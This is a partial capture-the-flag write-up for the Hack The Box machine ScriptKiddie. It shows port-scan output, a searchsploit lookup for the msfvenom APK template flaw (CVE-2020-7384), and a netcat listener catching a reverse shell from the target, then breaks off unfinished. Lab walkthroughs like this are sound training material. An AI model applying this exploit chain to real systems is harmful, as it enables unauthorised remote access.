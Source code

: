 # CTF - [HTB ScriptKiddie](http://10.10.10.226:5000/)
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
| http-methods: 
|_  Supported Methods: HEAD POST GET OPTIONS
|_http-title: k1d'5 h4ck3r t00l5
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
<br/><br/>
Found a site with input fields that could be potential entry points.
<br/><br/>
![Screenshot at 2021-12-03 21-38-40](https://user-images.githubusercontent.com/59718043/144700412-347e85cf-7ea9-498c-807e-81c702acb9a0.png)
<br/><br/>
Another potential vulnerability: `Werkzeug/0.16.1 Python/3.8.5`.

<br/><br/>
Knowing that the site executes binaries from a Linux server, first I tried command injection on the input fields, but unfortunately that didn't work.<br/><br/>
![Screenshot at 2021-12-04 20-32-13](https://user-images.githubusercontent.com/59718043/144734995-99ddb895-5b05-4349-83a1-cea76b3c060d.png)

<br/><br/>
One of the executable programs on this web app is msfvenom. According to searchsploit, msfvenom is vulnerable to [CVE 2020-7384](https://www.exploit-db.com/exploits/49491).
```
└──╼ $searchsploit msfvenom                                                        │                             
------------------------------------------------- ---------------------------------│                   
 Exploit Title                                   |  Path                           │
------------------------------------------------- ---------------------------------│
Metasploit Framework 6.0.11 - msfvenom APK templ | multiple/local/49491.py         │
------------------------------------------------- ---------------------------------│
Shellcodes: No Results
```
<br/><br/>
Used this Metasploit module and ran it, which then returns an APK file that I used to upload to the site's msfvenom payload generator while my netcat is running. This gave me a shell.
<br/><br/>
```
└──╼ $nc -lvp 4444
listening on [any] 4444 ...
10.10.10.226: inverse host lookup failed: Unknown host
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.226] 35390
id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```
<br/><br/>
The user.txt flag can be found under the usual user home directory (/home/<user>/).
  
```
TO BE CONTINUED  
```
